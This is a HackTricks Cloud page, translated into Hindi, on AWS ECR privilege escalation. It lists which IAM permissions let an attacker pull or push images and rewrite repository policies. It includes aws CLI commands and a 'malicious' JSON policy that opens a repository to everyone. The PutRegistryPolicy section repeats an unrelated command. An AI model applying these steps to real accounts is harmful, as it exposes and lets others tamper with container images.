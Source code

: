 # AWS - ECR Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## ECR

### `ecr:GetAuthorizationToken`,`ecr:BatchGetImage`

एक हमलावर जिसके पास **`ecr:GetAuthorizationToken`** और **`ecr:BatchGetImage`** हैं, वह ECR में लॉगिन कर सकता है और इमेज डाउनलोड कर सकता है।

इमेज डाउनलोड करने के तरीके के बारे में अधिक जानकारी के लिए:

{% content-ref url="../aws-post-exploitation/aws-ecr-post-exploitation.md" %}
[aws-ecr-post-exploitation.md](../aws-post-exploitation/aws-ecr-post-exploitation.md)
{% endcontent-ref %}

**संभावित प्रभाव:** ट्रैफिक में संवेदनशील जानकारी को इंटरसेप्ट करके अप्रत्यक्ष प्रिविलेज़ वृद्धि।

### `ecr:GetAuthorizationToken`, `ecr:BatchCheckLayerAvailability`, `ecr:CompleteLayerUpload`, `ecr:InitiateLayerUpload`, `ecr:PutImage`, `ecr:UploadLayerPart`

एक हमलावर जिसके पास ये सभी अनुमतियाँ हैं, **ECR में लॉगिन कर सकता है और इमेज अपलोड कर सकता है**। यह उन अन्य वातावरणों में प्रिविलेज़ बढ़ाने के लिए उपयोगी हो सकता है जहाँ ये इमेज उपयोग की जा रही हैं।

नई इमेज अपलोड करने/अपडेट करने के तरीके के लिए, देखें:

{% content-ref url="../aws-services/aws-eks-enum.md" %}
[aws-eks-enum.md](../aws-services/aws-eks-enum.md)
{% endcontent-ref %}

### `ecr-public:GetAuthorizationToken`, `ecr-public:BatchCheckLayerAvailability, ecr-public:CompleteLayerUpload`, `ecr-public:InitiateLayerUpload, ecr-public:PutImage`, `ecr-public:UploadLayerPart`

पिछले अनुभाग की तरह, लेकिन सार्वजनिक रिपॉजिटरी के लिए।

### `ecr:SetRepositoryPolicy`

एक हमलावर जिसके पास यह अनुमति है, वह **रिपॉजिटरी** **नीति** को **बदल** सकता है ताकि वह खुद (या यहां तक कि सभी) को **पढ़ने/लिखने की अनुमति** दे सके।\
उदाहरण के लिए, इस उदाहरण में सभी को पढ़ने की अनुमति दी गई है।
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
`my-policy.json` की सामग्री:
```json
{
"Version" : "2008-10-17",
"Statement" : [
{
"Sid" : "allow public pull",
"Effect" : "Allow",
"Principal" : "*",
"Action" : [
"ecr:BatchCheckLayerAvailability",
"ecr:BatchGetImage",
"ecr:GetDownloadUrlForLayer"
]
}
]
}
```
### `ecr-public:SetRepositoryPolicy`

पिछले अनुभाग की तरह, लेकिन सार्वजनिक रिपॉजिटरी के लिए।\
एक हमलावर **रिपॉजिटरी नीति को संशोधित** कर सकता है एक ECR सार्वजनिक रिपॉजिटरी की ताकि अनधिकृत सार्वजनिक पहुंच प्रदान की जा सके या अपनी विशेषताओं को बढ़ा सके।

{% code overflow="wrap" %}
```bash
bashCopy code# Create a JSON file with the malicious public repository policy
echo '{
"Version": "2008-10-17",
"Statement": [
{
"Sid": "MaliciousPublicRepoPolicy",
"Effect": "Allow",
"Principal": "*",
"Action": [
"ecr-public:GetDownloadUrlForLayer",
"ecr-public:BatchGetImage",
"ecr-public:BatchCheckLayerAvailability",
"ecr-public:PutImage",
"ecr-public:InitiateLayerUpload",
"ecr-public:UploadLayerPart",
"ecr-public:CompleteLayerUpload",
"ecr-public:DeleteRepositoryPolicy"
]
}
]
}' > malicious_public_repo_policy.json

# Apply the malicious public repository policy to the ECR Public repository
aws ecr-public set-repository-policy --repository-name your-ecr-public-repo-name --policy-text file://malicious_public_repo_policy.json
```
{% endcode %}

**संभावित प्रभाव**: ECR सार्वजनिक भंडार तक अनधिकृत सार्वजनिक पहुंच, जिससे कोई भी उपयोगकर्ता छवियों को पुश, पुल या हटाने की अनुमति मिलती है।

### `ecr:PutRegistryPolicy`

इस अनुमति के साथ एक हमलावर **पॉलिसी** को **बदल** सकता है ताकि वह अपने लिए, अपने खाते के लिए (या यहां तक कि सभी के लिए) **पढ़ने/लिखने की पहुंच** प्रदान कर सके।
```bash
aws ecr set-repository-policy \
--repository-name <repo_name> \
--policy-text file://my-policy.json
```
{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारे** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** का पालन करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
